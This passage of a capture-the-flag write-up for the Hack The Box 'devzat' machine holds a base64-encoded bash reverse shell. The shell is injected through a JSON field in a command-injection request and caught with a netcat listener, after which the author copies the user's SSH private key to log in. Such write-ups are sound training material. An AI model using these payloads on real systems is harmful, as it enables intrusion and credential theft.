 ```bash
┌──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC83MDcwIDA+JjEK" | base64 -d
bash -i >& /dev/tcp/10.10.10.10/7070 0>&1
```
Now sending the encoded reverse shell
```bash
# Request
{"name":"hello","species":"gopher; echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC83MDcwIDA+JjEK" | base64 -d | bash"}

# ---- Listener
┌──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ nc -nvlp 7070
listening on [any] 7070 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.11.118] 40274
bash: cannot set terminal process group (832): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$
```
We got shell!
# Enumeration
So our shell is bad, we need to upgrade that, `python -c 'import pty; pty.spawn("/bin/bash")'` didn't seem to work, so lets find another way. We can read the .ssh/id_rsa. This means that we can start logging in to the machine via a private key. Simple, we will just copy the contents and put that in our own .ssh folder as id_rsa_patrick. Don't be an idiot like me and use `chmod +600`, becuase that adds privileges, instead you need `chmod 600` becuase that sets it to 600.
```bash
patrick@devzat:~$ ls /home/patrick/.ssh/
authorized_keys  id_rsa  known_hosts

-------


┌──(kali㉿kali)-[~/.ssh]
└─$ vim id_rsa_patrick
┌──(kali㉿kali)-[~/.ssh]    
└─$ chmod +600 id_rsa_patrick                                                                                                                                                                                     

┌──(kali㉿kali)-[~/.ssh] 
└─$ ssh -i id_rsa_patrick patrick@10.10.11.118
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @ 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa_patrick' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa_patrick": bad permissions
patrick@10.10.11.118: Permission denied (publickey).

┌──(kali㉿kali)-[~/.ssh]
└─$ chmod 600 id_rsa_patrick 
                          
┌──(kali㉿kali)-[~/.ssh] 
└─$ ssh -i id_rsa_patrick patrick@10.10.11.118
Last login: Mon Mar  7 01:01:21 2022 from 10.10.14.39
patrick@devzat:~$ 

```
